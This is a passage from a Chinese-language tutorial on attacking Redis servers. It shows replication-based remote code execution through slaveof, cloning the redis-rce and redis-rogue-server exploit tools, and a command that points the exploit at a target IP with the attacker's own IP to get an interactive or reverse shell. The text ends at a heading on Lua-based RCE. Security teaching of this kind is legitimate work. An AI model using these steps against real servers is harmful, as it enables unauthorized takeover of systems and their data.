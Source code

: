 然后通过slaveof可以设置主从状态

```plain
slaveog <主redis ip><端口号>
```

[![](assets/1702372985-3ccfe56b53baaf09eabfd79e751a1e79.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/22.png)

这样一来数据就会自动同步了

当服务器开启主从同步后，利用脚本

```plain
git clone https://github.com/Ridter/redis-rce.git   //下载漏洞利用脚本
https://github.com/n0b0dyCN/redis-rogue-server //脚本需要调用这里的 exp.so文件
```

将exp.so文件下载并放到和redis-rce.py同一目录下,执行命令：

```plain
python3 redis-rce.py -r <目标ip> -L <自己IP> -f exp.so
```

[![](assets/1702372985-39c4900964d216aeededce4d4a2646f3.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/23.png)

在此处：`i为交互式shell`，r为反弹shell，根据自己的需要选择就可以了

[![](assets/1702372985-86931b1f9a33ca5645189b2653a613be.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/24.png)

### [](#6-%E5%88%A9%E7%94%A8-redisLua-RCE "6.利用 redisLua RCE")6.利用 redisLua RCE[](#6-%E5%88%A9%E7%94%A8-redisLua-RCE)
